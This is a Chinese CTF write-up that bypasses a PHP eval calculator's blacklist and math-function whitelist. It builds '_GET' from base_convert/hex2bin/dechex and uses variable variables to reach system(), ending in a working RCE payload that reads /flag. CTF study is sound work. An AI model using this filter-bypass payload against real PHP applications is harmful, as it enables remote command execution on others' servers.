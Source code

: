 ![](<./img/Pasted image 20221202195606.png>)

---
首页长这样
```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

---
emmm，只给数学函数感觉限死了，但`php`绝对不会让我们失望QwQ

总体上就是利用可变变量和可变函数

---
首先好像要拿一个变量承载字符串，于是选择最短的`pi`

为了保持在80个字符之内，决定给`pi`赋一个`"_GET"`，也就是
```php
$pi="_GET";
```
然后通过`pi`来绕过过滤（这个大括号访问数组和字符串的特性好像在`php7.4`之后被删了QAQ）
```php
$$pi{abs}($$pi{cos})
```
这个会变成
```php
$_GET{abs}($_GET{cos})
```
我们传入
```php
abs=system&cos=<command>
```
即可

问题转化为通过数学函数构造出`'_GET'`

虽然但是，下划线和大写字母好难弄QAQ

![](<./img/Pasted image 20221202214151.png>)

这个东西文档的解释完全没看懂哇wuwuwu

意思好像就是说传入参数是一群字符的`ascii`码的十六进制形式连在一块，然后返回值是还原这些十六进制形式为原字符的结果

也就是说只要构造出了`"hex2bin"`就可以通过`hex2bin`和`dechex`构造出`"_GET"`了

`"hex2bin"`全是字母数字，可以直接`base_convert`QwQ

![](<./img/Pasted image 20221202215159.png>)

![](<./img/Pasted image 20221202215606.png>)

所以就可以构造出最终`payload`啦
```php
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{cos})&abs=system&cos=cat /flag
```
![](<./img/Pasted image 20221202220340.png>)

#Web #PHP #RCE #function #数学 #可变变量 #bypass